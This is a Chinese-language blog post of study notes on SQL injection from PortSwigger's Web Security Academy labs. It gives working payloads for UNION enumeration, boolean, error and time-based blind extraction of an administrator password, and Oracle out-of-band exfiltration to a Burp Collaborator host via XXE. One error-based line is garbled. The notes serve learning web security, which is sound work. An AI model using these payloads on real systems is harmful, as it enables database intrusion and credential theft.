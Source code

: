 ```yaml
---
layout: article
title: SQL injection--Web Security Academy 1
mathjax: true
key: a00002	
cover: /bkgs/1.png
modify_date: 2021-07-14
show_author_profile: true
excerpt_type: html
tag: 
- Academy
- SQLi
mode: immersive
header:
  theme: dark
article_header:
  type: overlay
  theme: dark
  background_color: '#203028'
  background_image:
    gradient: 'linear-gradient(135deg, rgba(34, 139, 87 , .4), rgba(139, 34, 139, .4))'
    src: /docs/assets/images/cover3.jpg
---
```


## 前言

最近学习实践的过程深感自己基础的不足和英语水平的匮乏，正好又找到一个很好的学习网站（https://portswigger.net/web-security/learning-path 既有知识点也有相应的靶场，唯一的缺点就是全英文的），于是想借此重新打一遍web安全基础，并提高自己的英语水平，目前已经学习了XXE，SQL注入和Authentication部分，正在看OAuth的部分，今天先给出SQL injection 学习过程中的笔记，供分享与备忘。
<!--more-->
Web Security Academy 分了如下5个点来介绍SQL注入，如下：

## 1.Retrieving hidden data

- where you can modify an SQL query to return  additional results.

  +是拼接字符串的；

  --是SQL的注释标记

## 2.Subverting application logic

- where you can change a query to interfere with the application's logic.

## 3.UNION attacks

- where you can retrieve data from different database tables.

### 两个条件：

1. The individual queries must return the **same number of columns**.
2. The **data types** in each column must **be compatible** between the individual queries.

​               `( 'UNION SELECT 'a',NULL,NULL,NULL--)`

### 	猜columns：

```sql
order by *num --
union select NULL,NULL --
```

There is a built-in table on Oracle called **DUAL** which can be used for this purpose. 
So the injected queries on Oracle would need to look like: 

```sql
UNION SELECT NULL FROM DUAL--
```

### Retrieving multiple values within a single column

```sql
concat(username,':',password)
username||'~'||password
```

## 4.Examining the database

- where you can extract information about the version and structure of the database.

#### Oracle

- On Oracle databases, every SELECT statement must specify a table to select FROM

  There is a built-in table on Oracle called dual which you can use for this purpose. For example: 

```sql
UNION SELECT 'abc' FROM dual
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```

### Listing the contents of the database

#### EXCEPT Oracle

```sql
'+union+select+table_name,NULL+from+information_schema.tables--+
'+union+select+column_name,NULL+from+information_schema.columns+where+table_name='pg_user'--+
'+union+select+usename,passwd+from+pg_user--+
```

#### Oracle

```sql
'+union+select+NULL,NULL+from+dual--+
'+union+select+NULL,NULL+from+all_tables--+
'+union+select+table_name,NULL+from+all_tables--+
'+union+select+column_name,NULL+from+all_tab_columns+where+table_name='USERS_QCCECD'--+
'+union+select+USERNAME_WMJDSJ,PASSWORD_MPFXMQ+from+USERS_QCCECD--+
```

### 5.Blind SQL injection, 

- where the results of a query you control are not returned in the application's responses

#### Exploiting blind SQL injection by triggering conditional responses（Boolean）

```sql
TrackingId=xyz' AND '1'='1  	--验证
TrackingId=xyz' AND '1'='2  	--确定显示不同
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a  	--确定数据表
--confirming that there is a user called administrator.
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a  	
--确定字段长度
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a  	
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a   	

```

#### Inducing conditional responses by triggering SQL errors（报错）

```sql
TrackingId=xyz'    	--verify the vulnerability 
TrackingId=xyz''    --error disappears
TrackingId=xyz'||(SELECT '')||'   --still error ,might be oracle
TrackingId=xyz'||(SELECT '' FROM dual)||'     --confirm oracle
TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'
TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'	 --table confirmed
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||' --error message is received
TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'		
TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'		--verify table
--username verified
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'	
-get the info
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

#### Exploiting blind SQL injection by triggering time delays

| **Oracle**     | dbms_pipe.receive_message(('a'),10) |
| -------------- | ----------------------------------- |
| **Microsoft**  | WAITFOR  DELAY '0:0:10'             |
| **PostgreSQL** | SELECT  pg_sleep(10)                |
| **MySQL**      | SELECT  sleep(10)                   |

example ：  `'||SELECT sleep(10)--`  

**分号**用 <font color="red">%3B</font>

```sql
'%3Bselect case when (1=1) then pg_sleep(10) else pg_sleep(0) end--

'%3Bselect case when (username='administrator') then pg_sleep(5) else pg_sleep(0) end from users--

'%3Bselect case when (username='administrators') then pg_sleep(5) else pg_sleep(0) end from users--

'%3Bselect case when (length(password)>20) then pg_sleep(5) else pg_sleep(0) end from users where username='administrator'--

'%3Bselect case when (substr(password,1,1)='a') then pg_sleep(2) else pg_sleep(0) end from users where username='administrator'--
```

#### Exploiting blind SQL injection using out-of-band ([OAST](https://portswigger.net/burp/application-security-testing/oast)) techniques

##### oracle（ combined with xxe）example：

```sql
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//dp61vdo4svrlp985ts0r562e95fw3l.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
```

retrive data

```sql
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.kym84kxb120syghc2z9yedblico4ct.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
```

### SQL injection cheat sheet

链接包含常见不同数据库的绕过方法

[SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)